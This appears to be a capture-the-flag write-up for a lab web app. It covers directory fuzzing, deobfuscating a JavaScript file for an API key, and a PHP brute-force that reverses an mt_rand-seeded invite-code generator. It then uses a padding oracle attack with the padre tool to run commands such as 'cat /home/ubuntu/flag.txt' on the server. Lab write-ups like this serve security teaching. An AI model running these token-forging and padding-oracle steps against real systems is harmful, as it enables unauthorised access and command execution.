

# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 1337 | HTTP    |


# RECONNAISSANCE
---

Let's check the web application:


As seen, we can login with the username and an invite code, we can also check the `API` documentation:


We need the password for the API, seems like we need to fuzz in order to find anything that may be hidden:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.28.196:1337/FUZZ" -ic -c -t 200 -e .php,.html,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.28.196:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 175ms]
.html                   [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 175ms]
index.php               [Status: 200, Size: 3220, Words: 908, Lines: 77, Duration: 188ms]
header.php              [Status: 200, Size: 370, Words: 47, Lines: 13, Duration: 173ms]
footer.php              [Status: 200, Size: 245, Words: 38, Lines: 8, Duration: 173ms]
css                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 177ms]
js                      [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 175ms]
api.php                 [Status: 200, Size: 1043, Words: 251, Lines: 29, Duration: 180ms]
javascript              [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 176ms]
logs                    [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 174ms]
```

`logs` seem interesting:


We can find that info inside of it, we get an invite code but can't do anything with it, let's go to `js`:


We can find `api.js`:


We can use `beautifier` to check the contents better:

```js
function b(c, d) {
    const e = a();
    return b = function(f, g) {
        f = f - 0x165;
        let h = e[f];
        return h;
    }, b(c, d);
}
const j = b;

function a() {
    const k = ['16OTYqOr', '861cPVRNJ', '474AnPRwy', 'H7gY2tJ9wQzD4rS1', '5228dijopu', '29131EDUYqd', '8756315tjjUKB', '1232020YOKSiQ', '7042671GTNtXE', '1593688UqvBWv', '90209ggCpyY'];
    a = function() {
        return k;
    };
    return a();
}(function(d, e) {
    const i = b,
        f = d();
    while (!![]) {
        try {
            const g = parseInt(i(0x16b)) / 0x1 + -parseInt(i(0x16f)) / 0x2 + parseInt(i(0x167)) / 0x3 * (parseInt(i(0x16a)) / 0x4) + parseInt(i(0x16c)) / 0x5 + parseInt(i(0x168)) / 0x6 * (parseInt(i(0x165)) / 0x7) + -parseInt(i(0x166)) / 0x8 * (parseInt(i(0x16e)) / 0x9) + parseInt(i(0x16d)) / 0xa;
            if (g === e) break;
            else f['push'](f['shift']());
        } catch (h) {
            f['push'](f['shift']());
        }
    }
}(a, 0xe43f0));
const c = j(0x169);
```

The code is obfuscated, after analysis, we find that

```js
function b(c, d) {
    const e = a();
    return b = function(f, g) {
        f = f - 0x165;
        let h = e[f];
        return h;
    }, b(c, d);
}
```

This defines a function `b()` which:

1. Calls `a()` to get an array of strings
2. Redefines itself to a new function that:
    - Adjusts the input index by subtracting `0x165` (357)
    - Returns the value at the adjusted index from the captured array `e`
3. Immediately executes the redefined function with arguments `(c, d)`

Now `a()`:

```js
function a() {
    const k = [
        '16OTYqOr',        // 0x165 -> becomes index 0
        '861cPVRNJ',       // 0x166 -> becomes index 1
        '474AnPRwy',       // 0x167 -> becomes index 2
        'H7gY2tJ9wQzD4rS1',// 0x168 -> becomes index 3
        '5228dijopu',      // 0x169 -> becomes index 4
        '29131EDUYqd',     // 0x16a -> becomes index 5
        '8756315tjjUKB',   // 0x16b -> becomes index 6
        '1232020YOKSiQ',   // 0x16c -> becomes index 7
        '7042671GTNtXE',   // 0x16d -> becomes index 8
        '1593688UqvBWv',   // 0x16e -> becomes index 9
        '90209ggCpyY'      // 0x16f -> becomes index 10
    ];
    a = function() {
        return k;
    };
    return a();
}
```

**However, the array is dynamically modified before use!** The key is this IIFE that executes immediately after array initialization:

```js
(function(d, e) {
    const i = b, f = d();
    while(!![]) {
        try {
            const g = parseInt(i(0x16b))/0x1 
                    + -parseInt(i(0x16f))/0x2 
                    + parseInt(i(0x167))/0x3 * (parseInt(i(0x16a))/0x4) 
                    + parseInt(i(0x16c))/0x5 
                    + parseInt(i(0x168))/0x6 * (parseInt(i(0x165))/0x7) 
                    + -parseInt(i(0x166))/0x8 * (parseInt(i(0x16e))/0x9) 
                    + parseInt(i(0x16d))/0xa;
            if(g === e) break;
            else f['push'](f['shift']());
        } catch(h) {
            f['push'](f['shift']());
        }
    }
}(a, 0xe43f0));
```

This IIFE does the following:

1. Takes `a` (array function) and `0xe43f0` (934,896) as inputs
2. Continuously rotates the array (shift + push)
3. Stops rotating only when a complex arithmetic condition equals `0xe43f0`
4. **Permanently modifies the array order** before any other operations

Now the critical part:

```JS
const c = j(0x169);
```

Since `j = b`, calling `b(0x169)`:

1. Computes index: `0x169 - 0x165 = 4`
2. Returns `e[4]` from the modified array


We can make use of the console to put the obfuscated snippet and do:

```js
j(0x169)
```

We get:


**Why it returns "H7gY2tJ9wQzD4rS1" instead of "5228dijopu":**

- The IIFE rotates the array until the arithmetic condition is satisfied
- After rotation, the original `k[3]` ("H7gY2tJ9wQzD4rS1") moves to index 4
- The original `k[4]` ("5228dijopu") moves to a different position

```
H7gY2tJ9wQzD4rS1
```


With this we can now go into the API documentation and begin exploitation.


# EXPLOITATION
---

Once we access the API we can find this:


We can see the way the token is being generated, it uses the following function:

```php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
     $seed_value = calculate_seed_value($email, $constant_value);
     mt_srand($seed_value);
     $random = mt_rand();
     $invite_code = base64_encode($random);
```

On here, we can find the invite code for `hello@fake.thn` email, which we found on the logs, we need to bruteforce the constant, for this, we can use this php code:

```php
<?php
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);
    return $seed_value;
}

function reverse_constant_value($email, $invite_code) {
    // Step 1: Decode Base64 invite code
    $random_value = intval(base64_decode($invite_code));

    // Step 2: Get email components
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));

    // Step 3: Iterate over possible constant values
    for ($constant_value = 0; $constant_value <= 1000000; $constant_value++) {
        $seed_value = hexdec($email_length + $constant_value + $email_hex);

        mt_srand($seed_value);
        if (mt_rand() === $random_value) {
            return $constant_value;
        }
    }
    return "Constant value not found in range.";
}

// Given data
$email = "alpha@fake.thm";
$invite_code = "MTM0ODMzNzEyMg=="; // Base64 encoded value

// Reverse the constant value
$constant_value = reverse_constant_value($email, $invite_code);

echo "Reversed Constant Value: " . $constant_value . PHP_EOL;
```

```
php calculate.php
Reversed Constant Value: 99999
```

Once we reverse the constant, we can use the original php code to get our code:

```php
<?php

function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}

function generate_token($email, $constant_value) {
     $seed_value = calculate_seed_value($email, $constant_value);
     mt_srand($seed_value);
     $random = mt_rand();
     $invite_code = base64_encode($random);

    return $invite_code;
}


$email = "hello@fake.thm";
$token = generate_token($email, 99999);
print $token

?>
```


```
php get_token.php
NDYxNTg5ODkx
```


We got our code, let's login:


Nice, got our first flag:

```
THM{CryptographyPwn007}
```

Let's get our second flag.

# SECOND FLAG
---

If we check the source code of the dashboard, we can see this:


We got a hidden input type named date, if we use it, this happens:


The error `Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length` indicates that the application is **vulnerable to a Padding Oracle Attack (POA)**. This occurs when the server leaks information about padding validation during decryption.

### Key Details:

- **Cryptography Used**:
    - The `date` parameter contains encrypted data (likely AES-CBC mode)
    - Server attempts to decrypt it and reveals padding errors
    - Error message confirms it's using OpenSSL's EVP functions




Now that we know the attack path, we need a tool to perform the attack, we can use this:

PADRE: https://github.com/glebarez/padre

In order to use the tool, we need cookies, let's submit the request to our proxy:


Get both cookies and use padre:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' '2a1LzN11hzRQ2RKLfxISXUhCo4tNS7BGEhT4a7E7ITg='

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08
```

Now, we can encrypt `whoami` to check if we can achieve `rce`:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc 'whoami'

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] /72bsovoJoFlZXNlZW5ibA== 
```

Now, let's try it and check the response:


Nice, as seen we achieved RCE, let's get our final flag then:

```bash
padre -cookie 'PHPSESSID=bvm7a460lof8s58df1cr0kq9cm; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.28.196:1337/dashboard.php?date=$' -enc "cat /home/ubuntu/flag.txt"

[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] xIK95Ugkdek4rajb78dj6a8/m4PxZjfJxIPPCN2mrV5iZXNnZ2JmbA==
```

We get:


Got our flag:

```
THM{GOT_COMMAND_EXECUTION001}
```


